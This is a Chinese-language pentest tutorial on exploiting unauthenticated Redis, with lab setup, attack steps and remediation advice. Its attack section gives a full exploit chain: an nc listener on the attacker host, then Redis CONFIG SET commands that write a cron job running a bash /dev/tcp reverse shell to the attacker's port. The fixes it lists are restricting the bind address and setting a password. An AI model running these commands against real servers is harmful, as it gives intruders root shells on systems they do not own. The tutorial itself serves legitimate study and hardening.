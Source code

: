 ```yaml
---
title: Redis未授权访问漏洞利用
date: 2020-05-25 22:48:44
index_img: /img/redis.png
banner_img: /img/redis.png
tags:
  -  安全
categories:
  - 渗透测试
---
```


#### 漏洞简介及危害
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器、添加计划任务、写入Webshell等操作。

#### 漏洞利用
##### 环境搭建
```
# redis安装
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
tar -xvzf redis-3.2.0.tar.gz
cd redis-3.2.0
make

# 修改配置文件
vim redis.conf
# bind 127.0.0.1               前面加上#号    
# protected-mode设为no 
protected-mode no
# 保存退出
# 启动redis-server
redis-server redis-conf
```
观察到如下输出，漏洞环境搭建成功
![image](/img/redis_res1.png)

##### 反弹shell
```
# 在攻击主机上打开9999端口监听
[root@]# nc -vv -l -p 9999
```
##### 未授权访问验证
```
# 连接靶机redis
redis -h target_ip

# 获取redis版本等信息
target_ip> info
```
![image](/img/redis_res2.png)
##### 写入shell
```
# 设置变量
target_ip:6379> set xx "\n* * * * * bash -i >& /dev/tcp/attack_ip/9999 0>&1\n"
OK

# 修改redis默认目录和rdb文件
target_ip:6379> config set dir /var/spool/cron
OK
target_ip:6379> config set dbfilename root
OK
target_ip:6379> save
OK
```
##### 成功反弹宿主机shell
![image](/img/redis_res3.png)

> P.S ，测试完记得关闭存在漏洞的redis
#### 修复建议
方法一： 可以修改绑定的IP、端口和指定访问者IP 具体根据实际情况来设定，也可以直接在服务器防火墙上做设置。

方法二： 设置访问密码 在 redis.conf 中找到“requirepass”字段，取消注释并在后面填上你需要的密码。 注：修改redis的配置需要重启redis才能生效。

7 [🔗知乎链接](https://zhuanlan.zhihu.com/p/142798377)
